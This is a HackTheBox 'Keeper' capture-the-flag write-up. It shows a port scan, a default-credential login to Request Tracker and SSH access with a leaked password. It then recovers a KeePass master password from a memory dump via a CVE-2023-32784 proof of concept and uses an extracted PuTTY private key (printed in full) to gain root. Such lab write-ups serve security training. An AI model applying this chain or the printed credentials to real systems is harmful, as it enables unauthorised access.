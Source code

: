 ```yaml
---
author: Nithissh S
pubDatetime: 2023-06-14
modDatetime: 2023-06-14
title: Keeper - HTB
slug: keeper-htb
featured: false
draft: false
tags:
  - HTB
description:
  Easy level HackTheBox platform lab machine running Linux OS, containing a standard password, password transmission using an open communication channel and its untimely change, exploiting a vulnerability in Keepass.
---
```


## Service Overview

The machine is assigned IP address 10.10.11.227, let's scan the ports with Nmap:

```SH
$ nmap -sV -sC -Pn -p1-65535 -oN 10.10.11.227 10.10.11.227
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Service

On port 80, we are immediately pointed to two domain names. We need to add **keeper.htb** and **tickets.keeper.htb** to **/etc/hosts:**

``` sh
10.10.11.227 keeper.htb tickets.keeper.htb
```

Request Tracker (RT 4.4.4.4+dfsg-2ubuntu1 (Debian)) is running on tickets.keeper.htb. After trying some password combinations without success, we finally get the `root:password` account.

The ticket reveals a problem with Keepass. Let's pay attention to the Danish usernames. In the user section http://tickets.keeper.htb/rt/Admin/Users/ we find the user `lnorgaard:Welcome2023!`.

```sh
27 	lnorgaard 	Lise Nørgaard 	lnorgaard@keeper.htb 	Enabled
Comments about this user 
New user. Initial password set to Welcome2023!

14 	root 	Enoch Root 	root@localhost 	Enabled
```

### User Flag

Use them to access SSH.

```sh
$ ssh lnorgaard@10.10.11.227
Welcome2023!
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp RT30000.zip passcodes.kdbx user.txt
lnorgaard@keeper:~$ cat user.txt
faa16f84c4bd32e64845c9651522850b
lnorgaard@keeper:~$
```

## Privilege Escalation

In the user directory **/home/lnorgaard** we see the file **RT30000.zip**. In the Windows application crash ticket it was written that the memory dump was removed from the ticket for security reasons and placed in the home directory.

Let's download this file for local research:

```sh
$ scp lnorgaard@10.10.11.227:~/RT30000.zip .
lnorgaard@10.10.11.227's password: Welcome2023!
Inside the archive is a file with memory dump and Keepass base:

$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp

 extracting: passcodes.kdbx

$ file passcodes.kdbx
passcodes.kdbx: Keepass password database 2.x KDBX

$ file KeePassDumpFull.dmp
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```


It looks like we're facing CVE-2023-32784. We can find almost the entire password from the memory dump.

```sh
$ git clone https://github.com/CMEPW/keepass-dump-masterkey
$ cd /opt/keepass-dump-masterkey
$ python3 poc.py /root/KeePassDumpFull.dmp
2023-09-08 17:50:46,382 [.] [main] Opened /root/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```


It looks like a passphrase, so we try a google search for med flode, given that the users are Danish. Apply the lowercase function to the passphrase and get rødgrød med fløde. Use this password to open passcodex.kdbx database.

In the Network category, find the Putty private key:

```sh
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

**Convert with puttygen (conversions => Export OpenSSH key):**

```sh
$ wget https://the.earth.li/~sgtatham/putty/0.76/putty-0.76.tar.gz
$ tar -xvf putty-0.76.tar.gz
$ cd putty-0.76/
$ ./configure
$ make
$ sudo cp puttygen /usr/bin/

$ putty-0.76/puttygen ssh-rsa.ppk -O private-openssh -o id_rsa
```


Let's connect with this key as root and get root flag:


```sh
$ ssh -i id_rsa root@10.10.11.227
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls
RT30000.zip  SQL  root.txt
root@keeper:~# cat root.txt
19ad20c7b763f30208fbb19e30eb7634
```